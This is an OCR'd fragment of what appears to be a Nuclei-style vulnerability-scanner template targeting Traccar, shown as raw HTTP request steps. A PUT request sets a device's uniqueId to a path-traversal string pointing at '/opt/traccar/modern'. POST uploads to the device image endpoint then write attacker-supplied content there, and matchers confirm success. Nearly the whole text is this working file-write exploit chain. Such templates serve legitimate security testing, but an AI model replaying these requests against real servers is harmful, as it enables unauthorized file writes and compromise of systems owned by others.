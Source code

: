 ```
      - type: json
        part: body
        name: value
        internal: true
        json:
          - '.id'

  - raw:
      - |
        POST /api/devices/{{value}}/image HTTP/1.1
        Host: {{Hostname}}
        Content-Type: image/srHtgGrc

        {{str}}

    extractors:
      - type: regex
        part: body
        name: filename
        internal: true
        regex:
          - 'device\.([a-zA-Z]+)'

    matchers:
      - type: dsl
        dsl:
          - status_code == 200
          - contains(content_type, "application/json")
        condition: and
        internal: true

  - raw:
      - |
        PUT /api/devices/{{value}} HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {"id": {{value}}, "attributes": {"deviceImage": "device.png"}, "groupId": 0, "calendarId": 0, "name": "test", "uniqueId": "{{unique}}/../../../../../opt/traccar/modern", "status": "offline", "lastUpdate": null, "positionId": 0, "phone": null, "model": null, "contact": null, "category": null, "disabled": false, "expirationTime": null}

    matchers:
      - type: word
        part: body
        words:
          - '"deviceImage":'
          - '"expirationTime":'
        condition: and
        internal: true

  - raw:
      - |
        POST /api/devices/{{value}}/image HTTP/1.1
        Host: {{Hostname}}
        Content-Type: image/srHtgGrc

        {{str}}

    matchers:
      - type: dsl
        dsl:
          - status_code == 200
```